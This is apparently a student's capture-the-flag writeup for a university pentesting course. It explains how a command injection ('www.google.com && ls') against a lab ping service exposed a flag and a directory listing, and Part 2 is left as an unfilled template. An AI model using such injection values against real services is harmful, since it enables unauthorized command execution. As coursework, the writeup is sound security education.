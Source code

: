 Writeup 3 - Pentesting I
======

Name: Noah Bathras
Section: 0101

I pledge on my honor that I havie not given or received any unauthorized assistance on this assignment or examination.

Digital acknowledgement of honor pledge: Noah Bathras

## Assignment 4 Writeup

### Part 1 (45 pts)
The flag I found was: CMSC389R-{p1ng_as_a_$erv1c3}
The way I obtained the flag was through command line injection, which is an attack in which the goal is execution of arbitrary commands on teh host operating system via a vulnerable application.  In this case the vulnerable application was Cornerstone Airlines uptime system.
Before I could start the attack I ran the command:
`nc cornerstoneairlines.co 45` 
Which connected me to the uptime application.
I was then able to run the command:
`www.google.com && ls` 
This command assumes that uptime is just taking whatever is enetered into the prompt and adding that to the end of a ping command.  Because this was the case, you can use the && command to string multiple commands together.  In this case I ran both the ping command and the ls command which returned:
`PING wwww.google.com (216.58.204.100) 56 (84) bytes of data. 64 bytes from par10s28-in-f100.net (2167.48.204.100): ucmp_seq=1 ttl=53 time=
77.4 ms 64 bytes from par10s28-in-f100.1e100.net (216.58.204.100): icmp_seq=2 ttl=53 time=77.0 ms --- www.google.com ping statistic --- 2 
packets transmitted, 2 received, 0% packet losss, time 1000 ms rtt min/avg/max/mdev = 77.066/77.273/77.480/0.207 ms bin boot dev etc home lib lib64 media mnt opt proc root run sbin srv sys tmp usr var` 
Which once you strip out the output from the ping command, represents the contents of the home directory of the server:
`bin boot dev etc  homelib lib64 media mnt opt proc root run sbin srv sys tmp usr var` 

### Part 2 (55 pts)
*Put your writeup >= 200 words here in response to part 2 prompt. Your code for part 2 should be copied into a file in the /writeup directory and pushed there as well*
